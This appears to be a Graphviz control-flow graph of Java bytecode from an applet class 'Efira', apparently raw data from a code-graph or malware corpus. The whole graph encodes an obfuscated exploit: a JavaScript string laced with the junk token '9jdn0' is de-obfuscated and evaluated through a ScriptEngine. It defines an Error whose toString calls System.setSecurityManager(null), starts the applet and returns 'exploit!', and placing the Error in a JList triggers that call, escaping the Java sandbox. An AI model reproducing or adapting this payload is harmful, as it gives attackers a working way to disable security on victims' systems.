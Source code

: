 digraph "" {
    "r0 := @this: Efira"
    "new Men"
    "r0 := @this: Efira"->"new Men";
    "store.r $r1"
    "new Men"->"store.r $r1";
    "load.r $r1"
    "store.r $r1"->"load.r $r1";
    "specialinvoke <Men: void <init>()>"
    "load.r $r1"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"load.r $r1";
    "fieldget <Men: javax.script.ScriptEngine jjwd>"
    "load.r $r1"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\"";
    "push \"9jdn0\""
    "push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\""->"push \"9jdn0\"";
    "push \"\""
    "push \"9jdn0\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r $r1";
    "load.r $r1"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"er9jdn0ro9jdn0r\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"er9jdn0ro9jdn0r\"";
    "push \"er9jdn0ro9jdn0r\""->"push \"9jdn0\"";
    "push \"9jdn0\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Efira: javax.swing.JList entendes>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Efira: javax.swing.JList entendes>";
    "fieldput <Efira: javax.swing.JList entendes>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Efira: javax.swing.JList entendes>"
    "load.r r0"->"fieldget <Efira: javax.swing.JList entendes>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"
    "fieldget <Efira: javax.swing.JList entendes>"->"virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
